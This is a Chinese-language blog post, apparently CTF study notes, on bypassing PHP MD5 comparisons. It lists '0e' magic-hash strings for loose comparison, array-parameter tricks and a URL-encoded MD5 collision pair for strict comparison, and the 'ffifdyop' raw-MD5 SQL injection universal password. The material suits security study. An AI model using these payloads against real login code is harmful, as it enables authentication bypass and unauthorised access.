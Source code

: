 ```yaml
---
layout: post
title: MD5知识点
categories: [web,md5]
---
```


# md5总结

> 弱类型比较产生的漏洞
强类型比较产生的漏洞
MD5碰撞
构造攻击语句

***

## 弱比较

> `v1!=v2,md5(v1)==md5(v2)`

> 以0e开头会被php判定为0

```php
var_dump('1' == 1); //true
var_dump('1a' == 1);  //true
var_dump('1a1' == 1);  //true
var_dump('a123' == 0);  //true
var_dump('1aa' == 0);  //false
```
>让一个数MD5加密后还是和加密前相等，这也就在网上找到了这个的数`0e215962017`

### 0e大法

> |原字符串|0e开头的md5|
> |--|--|
> |QNKCDZO|0e830400451993494058024219903391|
> |240610708|0e462097431906509019562988736854|
> |s878926199a|0e545993274517709034328855841020|
> |s155964671a|0e342768416822451524974117254469|
> |s214587387a|0e848240448830537924465865611904|
> |s214587387a|0e848240448830537924465865611904|
> |s878926199a|0e545993274517709034328855841020|
> |s1091221200a|0e940624217856561557816327384675|
> |s1885207154a|0e509367213418206700842008763514|
> |s1502113478a|0e861580163291561247404381396064|

>`0e215962017`加密后也是0e开头

## 强比较

```
md5($v1)===md5($v2)
数组绕过：A[]=a&B[]=b
```
### 数组绕过
```php
isset($_POST['a'])&&!preg_match('/[0-9]/',$_POST['a'])&&intval($_POST['a']
```
>因为这里有preg_match那么就可以用数组进行绕过，即a[]=0,用post的方法传上去

### MD5强碰撞  
```php
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) 

a = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

b = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

``` 


***

## MD5构造攻击语句

### 构造sql语句

```
构造or语句绕过：
md5(ffifdyop,true)='or’6\xc9]\x99\xe9!r,\xf9\xedb\x1c
md5(129581926211651571912466741651878684928,true)=\x06\xdaT0D\x9f\x8fo#\xdf\xc1’or’8
```

```sql
select * from 'admin' where password=md5($pass,true)
ffifdyop
这个点的原理是 ffifdyop 这个字符串被 md5 哈希了之后  
会变成 276f722736c95d99e921722cf9ed621c (对应ascii字符串'or'6É]™é!r,ùíb)，  
这个字符串前几位刚好是 ‘ or ‘6， 而 Mysql 刚好又会吧 hex 转成 ascii 解释，  
因此拼接之后的形式是select * from ‘admin’ where password=’’ or ‘6xxxxx’。  
等价于 or 一个永真式，因此相当于万能密码，可以绕过md5()函数
```
